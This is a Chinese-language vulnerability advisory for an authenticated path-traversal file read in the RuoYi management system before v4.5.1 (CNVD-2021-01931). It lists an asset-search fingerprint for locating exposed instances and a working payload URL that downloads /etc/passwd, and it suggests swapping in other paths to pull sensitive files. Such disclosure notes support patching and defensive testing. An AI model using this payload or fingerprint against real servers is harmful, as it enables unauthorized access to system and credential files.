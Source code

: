 # 若依管理系统 后台任意文件读取 CNVD-2021-01931

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>RuoYi < v4.5.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="若依-管理系统"</a-checkbox></br>

## 漏洞复现

登录后台后访问 Url

```shell
/common/download/resource?resource=/profile/../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruoyi-1.png)



访问后会下载文件 `/etc/passwd`



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruoyi-2.png)



可以使用Burp抓包改变 `/etc/passwd` 为其他文件路径获取敏感信息

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruoyi-4.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruoyi-5.png)



在新版本的修复中添加了过滤

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruoyi-7.png)